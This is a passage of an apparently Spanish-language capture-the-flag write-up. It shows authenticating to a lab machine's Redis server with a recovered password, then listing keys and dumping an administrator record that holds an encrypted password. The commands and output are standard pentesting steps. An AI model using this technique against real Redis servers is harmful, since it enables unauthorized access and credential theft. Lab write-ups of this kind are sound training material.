Vemos 3 resultados, pero solo uno sin comentarios (`#`), tomemos esa cadena y juguemos ahora con la utilidad [redis-cli](https://redis.io/topics/rediscli), con ella podemos movernos entre servidores de DB **redis**, usando el parámetro `auth` dentro de la consola de **redis** le concatenamos la cadena encontrada (que sería la pw):

```bash
❱ redis-cli -h 10.10.10.237
10.10.10.237:6379> auth hola123
(error) ERR invalid password
10.10.10.237:6379> auth kidvscat_yes_kidvscat
OK
```

Perfecto, tamos dentro del servidor **redis**, apoyándonos de la misma [guía](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#dumping-database) podemos dumpear las bases de datos existentes:

### Dumpeamos la base de datos <u>Redis</u> [⌖](#privesc-dump-redis) {#privesc-dump-redis}

Primero vemos cuantas DB hay:

```bash
10.10.10.237:6379> info
...
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

Solo una base de datos con indice `0`, juguemos con ella:

```bash
10.10.10.237:6379> SELECT 0
OK
```

```bash
10.10.10.237:6379> KEYS *
1) "pk:ids:MetaDataClass"
2) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
3) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
4) "pk:ids:User"
```

4 llaves, para dumpear sus valores debemos usar `GET <key>`, al jugar con la **3** encontramos esto:

```bash
10.10.10.237:6379> GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```

```json
"{
  "Id":"e8e29158d70d44b1a1ba4949d52790a0",
  "Name":"Administrator",
  "Initials":"",
  "Email":"",
  "EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi",
  "Role":"Admin",
  "Inactive":false,
  "TimeStamp":637530169606440253
}"
```
